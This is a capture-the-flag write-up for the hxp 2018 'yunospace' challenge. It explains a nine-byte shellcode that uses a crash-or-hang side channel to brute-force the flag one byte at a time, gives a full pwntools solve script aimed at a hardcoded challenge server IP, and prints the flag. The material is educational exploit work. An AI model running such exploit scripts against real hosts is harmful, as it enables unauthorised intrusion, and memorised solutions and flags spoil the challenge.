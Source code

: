 # yunospace hxp2018
> December 8 | pwn | 150 + bonus points | by kirschju

> Writeup author: big_J

### Overview
We are given a wrapper.py file, and a yunospace executable. When the wrapper is run, it asks for an index of the flag, then send that single byte to the yunospace binary in as an argument, then it asks for shellcode. If we take a look in at the binary, it looks like there is a lot going on:

![](https://gitlab.com/b1g_J/yunospace/raw/master/img/ida.png)

There is really two things going on here. First it makes sure the argument is actually one byte. Then it makes two pages. When we are prompted for shellcode it reads nine bytes, which writes it into one of the pages then it sets the space before our shellcode with the opcodes for `xor eax, eax` and it sets the byte right after our shellcode to the byte from the flag. So this page this we wrote into is bassically:

```
xor eax, eax
<our 9 bytes of shellcode>
<the byte from the flag>
```

After this, it does some operations that Ida was not able to understand. It clears all the registers except rip and rsi, sets rsp to the empty page, then jumps to the page with our shellcode. This is the state when we jump to the page:

![](https://gitlab.com/b1g_J/yunospace/raw/master/img/gdb.png)

So we have nine bytes of shellcode to figure out what the byte after our shellcode is. There are two ways of doing this. We could try to write that byte to stdout, or we could try to guess what it is and have the program crash if our guess is wrong. I went with the latter.

### Solution

So we have nine bytes of shellcode, the address of the page we are currently in in `rip`, and the empty page in `rsp`. The biggest problem to overcome is figuring out how to get the value of `rip` into another register in as few bytes as possible. A fun trick is to just do a syscall. We don't actually care what that syscall does, as long as the program does not crash. Syscalls usually shift the registers around a bit, and it only costs us two bytes. It just so happens that if we start our shellcode with a syscall, then the value `rip` gets copied into `rcx`. This only costs two bytes! Then we can use this value in `rcx` to compare our guessed byte value with the byte value from the flag. Then `jmp` back two if that is true. That will create an infinite loop if the character you guessed is correct, and will crash if our guess is wrong. With this we can slowly, but surely brute force out all the characters of the flag!

This was the shellcode I ended up using:

```
syscall                          # trick to get rip into rcx
cmp byte ptr [rcx + 7], <guess>; # compare the guessed char with flag char
jz $-2                           # infinite loop if last instruction true
```

and the solve:

```python
#!/usr/bin/python
from pwn import *
from string import printable

'''
syscall;
cmp byte ptr [rcx + 7], 0xff;
jz $-2;
'''

context.log_level='warn'
context.terminal='/usr/bin/zsh'

shellcode="\x0F\x05\x80\x79\x07{}\x74\xFE"


def check(char, index):
    p=remote('195.201.127.119', 8664)
    p.recvuntil('?')
    p.sendline(str(index))
    p.recvline()
    time.sleep(0.2)
    p.sendline(shellcode.format(char).ljust(9, ' '))
    time.sleep(0.4)
    if p.connected():
        p.close()
        return True
    p.close()
    return False


flag='hxp{'
for i in range(len(flag),58):
    for k in printable:
        if check(k, i):
            flag+=k
            print(flag)
            break
    else:
        print('ERROR')
        break


```

### Flag
hxp{y0u_w0uldnt_b3l13v3_h0w_m4ny_3mulat0rs_g0t_th1s_wr0ng}
